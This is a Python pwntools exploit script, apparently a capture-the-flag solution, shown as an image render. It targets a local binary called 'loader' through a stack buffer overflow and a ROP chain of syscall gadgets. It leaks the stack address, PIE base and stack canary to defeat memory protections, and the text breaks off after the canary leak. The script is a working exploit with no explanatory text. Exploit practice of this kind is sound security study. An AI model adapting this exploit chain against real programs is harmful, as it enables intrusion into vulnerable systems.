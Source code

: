 ```python
from pwn import *

def uc_syscall(rax, rdi, rsi, rdx):
    pl = b''
    pl += p64(pop_rax) + p64(rax)
    pl += p64(pop_rdi) + p64(rdi)
    pl += p64(pop_rsi_r15) + p64(rsi) + p64(0)
    pl += p64(pop_rdx) + p64(rdx)
    pl += p64(syscall)
    return pl

context.terminal = ["tmux", "splitw", "-h"]
context.arch='amd64'
p = process(['./loader', 'hello'], aslr=1)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)
pop_rdi = 0x40013af
pop_rdx = 0x40023b3
pop_rsi_r15 = 0x40013ad
pop_rax = 0x401001
syscall = 0x4002e6d
main = 0x4000129
WRITE = 1
READ = 0

payload = b''
payload += b'A' * 0x108
# stack leak
payload += uc_syscall(READ, 0, 0x4000000, 0x80)
payload += uc_syscall(WRITE, 1, 0x4000000, 0x80)

# PIE leak
payload += uc_syscall(READ, 0, 0x4000000, 0x80)
payload += uc_syscall(WRITE, 1, 0x4000000, 0x80)

# canary leak
payload += uc_syscall(READ, 0, 0x4000000, 0x40 + 0x100)
payload += uc_syscall(WRITE, 1, 0x4000000, 0x20)

# libc leak
payload += uc_syscall(READ, 0, 0x4000000, 0x80 + 0x748)
payload += uc_syscall(WRITE, 1, 0x4000000, 0x20)
payload += p64(main)
p.sendlineafter(b"\n", payload)

sleep(0.1)
p.send(b'B'*8)
p.recvuntil(b"B"*8)
stack = u64(p.recv(6) +b'\x00\x00')
log.success(f"stack @ {hex(stack)}")

sleep(0.1)
p.send(b'A'*0x38)
p.recvuntil(b"A"*0x38)
PIE_base = u64(p.recv(6) +b'\x00\x00') - 0x35d71b 
log.success(f"PIE base @ {hex(PIE_base)}")

sleep(0.1)
p.send(b'A' * 0x19)
p.recvuntil(b"A"*0x19)
canary = u64(b'\x00' + p.recv(7))
log.success(f"canary @ {hex(canary)}")

sleep(0.1)
```
